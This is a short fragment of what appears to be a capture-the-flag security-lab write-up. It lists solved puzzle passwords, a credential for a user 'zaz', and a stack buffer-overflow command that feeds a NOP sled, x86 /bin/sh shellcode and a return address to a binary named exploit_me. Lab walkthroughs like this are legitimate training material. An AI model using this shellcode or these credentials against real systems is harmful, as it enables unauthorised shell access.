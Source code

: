 4 2 6 3 1 5
Publicspeakingisveryeasy.126241207201b2149opekmq426315


We can now log as Thor with :

Publicspeakingisveryeasy.126241207201b2149opekmq426315


zaz password : 646da671ca01bb5d84dbb5fb2238dc8e

./exploit_me $(python -c 'print "\x90" * 95 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x50\xf6\xff\xbf"')
